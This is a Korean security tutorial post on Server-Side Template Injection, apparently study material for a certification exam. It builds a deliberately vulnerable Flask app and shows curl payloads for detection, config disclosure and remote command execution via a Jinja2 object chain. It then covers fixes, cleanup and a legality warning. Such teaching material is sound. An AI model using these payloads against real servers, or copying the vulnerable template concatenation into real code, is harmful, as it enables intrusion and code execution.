




## 들어가며

[12. 코드 인젝션 심화 ①](/posts/websec-12-code-injection-advanced/)의 마지막 조각, **SSTI(Server-Side Template Injection)** 를 **Flask 미니앱 구축부터** 한 단계씩 실습합니다.

> SSTI는 **2015년 PortSwigger의 James Kettle**이 체계화한 비교적 최신 취약점입니다. 템플릿 엔진이 `{{ ... }}` 안을 **서버에서 평가**한다는 점을 악용해, 단순 정보 노출을 넘어 **원격 코드 실행(RCE)** 까지 이어집니다. `{{7*7}}` 이 `49` 로 나오는지로 진단하는 그 유명한 기법이 여기서 나왔습니다.
{: .prompt-info }

---

## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.56.10) — curl, 브라우저 |
| 대상 | Ubuntu (192.168.56.30) — Python3 + Flask (포트 5000) |
| 추가 설치 | `python3-flask` (또는 venv + pip) |

> 모든 실습은 격리된 랩에서만. 실습 후 7장 정리(cleanup) 절차로 앱과 패키지를 제거하세요.
{: .prompt-warning }

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021) |
| CWE | CWE-1336 (템플릿 엔진에 사용되는 특수 요소의 부적절한 처리) |
| 영향 | 템플릿 렌더링 과정에서 임의 표현식 평가 → 내부 데이터 노출·**RCE** |
| 한 줄 핵심 | 사용자 입력을 **템플릿 문자열 자체로** 연결해 `{{표현식}}` 이 서버에서 실행됨 |

---

## 1. 배경 지식 — 템플릿 엔진과 SSTI

템플릿 엔진(Jinja2, Twig, FreeMarker 등)은 `{{ name }}` 자리에 값을 채워 HTML을 만듭니다.

```python
render_template_string("<h1>Hello {{ name }}</h1>", name="철수")
# → <h1>Hello 철수</h1>
```

문제는 개발자가 **사용자 입력을 템플릿 문자열에 직접 이어 붙일 때** 생깁니다.

```python
# 위험: 입력이 템플릿의 일부가 됨
render_template_string("<h1>Hello " + user_input + "</h1>")
```

이때 `user_input` 에 `{{7*7}}` 이 들어오면 템플릿 엔진이 이를 **표현식으로 평가**해 `49` 를 출력합니다. 표현식을 평가할 수 있다는 것은 **객체·전역 함수에 접근**할 수 있다는 뜻이고, Python에서는 결국 `os.popen()` 까지 도달해 RCE가 됩니다.



---

## 2. 실험 환경 구축 (Step by Step)

### 2.1 Flask 설치

**1단계 — 패키지 설치 (Ubuntu)**

```bash
sudo apt update
sudo apt install -y python3-flask
# (또는 격리 환경) python3 -m venv ~/ssti && source ~/ssti/bin/activate && pip install flask
```

**2단계 — 설치 확인**

```bash
python3 -c "import flask; print(flask.__version__)"   # 버전이 출력되면 성공
```

### 2.2 취약한 Flask 앱 작성

**1단계 — 앱 디렉터리·소스 작성**

```bash
sudo mkdir -p /opt/ssti
sudo tee /opt/ssti/ssti_app.py >/dev/null <<'EOF'
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get("name", "guest")
    # [의도적 취약] 입력을 템플릿 문자열에 직접 연결
    tpl = "<h1>Hello " + name + "</h1>"
    return render_template_string(tpl)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF
```

**2단계 — 앱 실행**

```bash
# 포그라운드 실행(별도 터미널 권장)
python3 /opt/ssti/ssti_app.py
#  * Running on http://0.0.0.0:5000

# 또는 백그라운드 실행
sudo nohup python3 /opt/ssti/ssti_app.py >/tmp/ssti.log 2>&1 &
```

**3단계 — 기동 확인 (Kali에서)**

```bash
curl -s "http://192.168.56.30:5000/?name=철수"
# → <h1>Hello 철수</h1>
```

---

## 3. 점검 실습 (Step by Step)

### 3.1 SSTI 탐지 — 수식 평가 (KISA Step 1)

```bash
curl -G "http://192.168.56.30:5000/" --data-urlencode "name={{7*7}}"
```

예상 출력:

```
<h1>Hello 49</h1>
```

`{{7*7}}` 이 문자 그대로가 아니라 **`49` 로 계산되어** 나오면 SSTI 확정입니다. (계산되지 않고 `{{7*7}}` 그대로 나오면 양호.)

> 엔진 식별 팁: `{{7*7}}`→49 면 Jinja2/Twig 계열, `${7*7}`→49 면 FreeMarker/Velocity 계열일 수 있습니다. 엔진마다 RCE 페이로드가 다릅니다.
{: .prompt-tip }

### 3.2 정보 노출 — 설정/객체 접근

```bash
# Flask config(비밀키 등) 노출 시도
curl -G "http://192.168.56.30:5000/" --data-urlencode "name={{config}}"
```

`SECRET_KEY` 등 내부 설정이 보이면 위험도가 높습니다.

### 3.3 RCE — 명령 실행 (KISA Step 2)

```bash
curl -G "http://192.168.56.30:5000/" --data-urlencode \
"name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"
```

예상 출력:

```
<h1>Hello uid=0(root) gid=0(root) groups=0(root)
</h1>
```

`id` 결과가 출력되면 **서버에서 임의 명령 실행이 가능**한 것입니다. (개발 서버를 root로 띄웠다면 `uid=0`, 일반 사용자로 띄웠다면 해당 사용자 권한.)

| 판단 | 기준 |
|---|---|
| 양호 | `{{7*7}}` 이 그대로 출력(평가되지 않음) |
| 취약 | `{{7*7}}`→49, 객체 체인으로 명령 결과 출력 |

---

## 4. 조치

### 4.1 근본 방어 — 입력을 "데이터"로만 전달

핵심은 **사용자 입력을 템플릿 문자열에 연결하지 말고, 변수로 전달**하는 것입니다.

```python
# 취약: 입력이 템플릿의 일부
tpl = "<h1>Hello " + name + "</h1>"
return render_template_string(tpl)

# 안전: 입력은 데이터(변수)로만 전달 → {{ name }} 안의 값으로만 쓰임
return render_template_string("<h1>Hello {{ name }}</h1>", name=name)

# 더 안전: 미리 만든 템플릿 파일 사용
# return render_template("hello.html", name=name)
```

`render_template_string("...{{ name }}...", name=name)` 처럼 쓰면, `name` 에 `{{7*7}}` 이 들어와도 **표현식이 아니라 문자열**로 처리됩니다.

### 4.2 추가 방어

1. 템플릿 예약 문자(`{ } < > % # @`) 이스케이프, 출력 시 자동 이스케이프 활성화
2. 샌드박스/안전 모드 사용으로 실행 가능한 객체·함수 제한
3. 템플릿 엔진 보안 패치 유지, **에러 메시지(스택 트레이스) 노출 제한**(`debug=False`)
4. 웹 방화벽에 `{{`·`${`·`__` 등 템플릿/매직 패턴 룰셋 적용

| 언어/엔진 | 안전 처리 예 |
|---|---|
| Python/Jinja2 | 입력을 변수로 전달, `autoescape=True`, `debug=False` |
| Java/FreeMarker | `${userInput?html}` |
| Java/Velocity | `$esc.html(userInput)` |
| PHP/Twig | `htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8')` |

---

## 5. 정리



SSTI의 한 줄 교훈: **"사용자 입력은 절대 템플릿의 일부가 되어선 안 된다. 채워 넣을 값일 뿐이다."**

---

## 6. 정보보안기사 시험 포인트

| 구분 | 꼭 외울 것 |
|---|---|
| **진단** | `{{7*7}}` → `49` 면 SSTI(평가됨) |
| **위험도** | 단순 출력이 아니라 객체 체인으로 **RCE** 가능 |
| **방어** | 입력을 **템플릿 문자열에 연결 금지**, 변수로 전달 + 샌드박스 |

> **★ 함정**: SSTI와 [02 XSS](/posts/websec-02-xss/)를 혼동하기 쉽습니다. XSS는 **브라우저(클라이언트)** 에서, SSTI는 **서버**에서 실행됩니다. `{{7*7}}` 이 서버 응답에 `49` 로 박혀 오면 SSTI입니다.
{: .prompt-tip }

---

## 7. 정리 (cleanup)

```bash
# 백그라운드로 띄웠다면 프로세스 종료
sudo pkill -f ssti_app.py
# 앱 삭제
sudo rm -rf /opt/ssti /tmp/ssti.log
# Flask 제거(다른 용도로 안 쓸 경우)
sudo apt purge -y python3-flask && sudo apt autoremove -y
```

---

## 8. 출처 및 참고 자료

- KISA, 「주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드」 — Web Application(웹) > 코드 인젝션 > SSTI
- PortSwigger Research, "Server-Side Template Injection"(2015) — <https://portswigger.net/research/server-side-template-injection>
- OWASP — Server-Side Template Injection — <https://owasp.org/www-community/attacks/Server-Side_Template_Injection>

> **⚠ 합법성**: 모든 실습은 본인 소유의 격리된 랩에서만 수행합니다. 타인 시스템 대상 점검은 정보통신망법 위반입니다.
{: .prompt-danger }

